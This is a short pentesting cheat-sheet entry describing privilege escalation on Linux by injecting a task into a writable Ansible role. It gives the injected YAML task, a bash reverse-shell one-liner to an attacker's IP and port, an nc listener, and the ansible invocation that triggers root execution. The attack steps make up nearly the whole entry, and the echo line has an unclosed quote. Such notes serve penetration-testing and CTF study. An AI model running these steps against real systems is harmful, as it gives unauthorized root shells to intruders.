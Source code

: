 ```yaml
---
title: Ansible Playbook Pentesting
desc:
tags: [Ansible, Linux, Playbook, PrivEsc, Privilege]
alts: [Linux-Privilege-Escalation]
render_with_liquid: false
---
```


## Privilege Escalation with Task

First off, check the content of playbook in /opt/ansible/playbooks.  
For instance, a file named “httpd.yaml”.

```yaml
- name: Install and configure Apache
  ...
  roles:
    - role: geerlingguy.apache
  tasks:
    - name: configure firewall
      firewalld:
        ...
```

Next, check the content of configure files in /opt/ansible/roles/geerlingguy.apache/tasks. And add the exploitable file in this.  
For example, a file named “configure-RedHat.yml”.

```yaml
...
- name: Reverse Shell
  command: sudo bash /tmp/root.sh
```

Create a exploit for reverse shell.

```sh
echo '/bin/bash -i >& /dev/tcp/<local-ip>/<local-port> 0>&1
```

Then open a listener in local machine.

```sh
nc -lvnp <local-port>
```

At the end, execute “ansible”

```sh
ansible
# or 
sudo -u <some-user> ansible
```